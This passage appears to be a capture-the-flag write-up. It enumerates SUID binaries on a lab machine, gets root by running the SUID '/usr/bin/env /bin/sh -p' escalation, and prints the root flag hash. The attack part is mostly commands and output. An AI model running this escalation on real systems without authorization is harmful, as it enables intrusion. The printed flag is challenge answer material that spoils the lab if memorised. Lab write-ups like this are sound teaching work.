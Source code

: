 The next common technique is finding the `SUID` file’s permission:

```tsx
namelessone@anonymous:/$ find / -perm -04000 2>/dev/null | grep "/usr/bin"
find / -perm -04000 2>/dev/null | grep "/usr/bin"
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

The `env` service is the vulnerability and could be exploited by using this payload:

```tsx
namelessone@anonymous:/$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
whoami
root
```

Go and get the root’s flag simply inside the `/root` directory:

```tsx
cd /root
ls 
root.txt
cat root.txt
4d930091c31a622a7ed10f27999af363
```